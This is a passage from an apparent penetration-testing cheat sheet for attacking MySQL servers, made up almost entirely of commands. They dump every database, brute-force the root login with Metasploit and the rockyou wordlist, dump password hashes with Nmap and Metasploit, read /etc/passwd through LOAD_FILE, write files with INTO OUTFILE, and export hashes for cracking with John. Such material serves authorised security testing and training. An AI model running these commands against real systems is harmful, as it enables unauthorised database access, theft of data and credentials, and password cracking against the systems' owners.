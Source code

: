 ```bash
mysqldump -h $IP -u $U -p"$P" --all-databases > all_dbs.sql
```

Nmap NSE with credentials:
```bash
# Users, databases, variables with creds
nmap -p 3306 --script mysql-users,mysql-databases,mysql-variables \
  --script-args "mysqluser=$U,mysqlpass=$P" $IP

# Dump hashes if permitted (then crack offline)
nmap -p 3306 --script mysql-dump-hashes --script-args "mysqluser=$U,mysqlpass=$P" $IP
```

Metasploit helpers:
```bash
msfconsole -q -x "
use auxiliary/scanner/mysql/mysql_version;
set RHOSTS $IP;
run;
use auxiliary/scanner/mysql/mysql_login;
set RHOSTS $IP;
set USERNAME root;
set PASS_FILE /usr/share/wordlists/rockyou.txt;
run;
set USERNAME $U;
set PASSWORD $P;
run;
use auxiliary/scanner/mysql/mysql_schemadump;
set RHOSTS $IP;
set USERNAME $U;
set PASSWORD $P;
run;
use auxiliary/scanner/mysql/mysql_hashdump;
set RHOSTS $IP;
set USERNAME $U;
set PASSWORD $P;
run;
exit"
```

File read/write checks (only enumerate if in scope; requires FILE or SUPER privileges):
```bash
# Check if file operations are possible
mysql -h $IP -u $U -p"$P" -e "SHOW VARIABLES LIKE 'secure_file_priv'; SHOW VARIABLES LIKE 'local_infile';"
# Read a file (if FILE privilege)
mysql -h $IP -u $U -p"$P" -e "SELECT LOAD_FILE('/etc/passwd');"
# Write a file into allowed directory (depends on secure_file_priv)
mysql -h $IP -u $U -p"$P" -e "SELECT 'test' INTO OUTFILE '/tmp/mysql_test.txt';"
```

Optional: prepare hashes for cracking (mysql_native_password):
```bash
# Save user:hash for John
mysql -h $IP -u $U -p"$P" -e "SELECT CONCAT(user,':',authentication_string) FROM mysql.user WHERE plugin='mysql_native_password' AND authentication_string<>'';" | tee mysql_hashes.txt

# Crack with John (format may vary by plugin/version)
john --wordlist=/usr/share/wordlists/rockyou.txt --format=mysql-sha1 mysql_hashes.txt
```
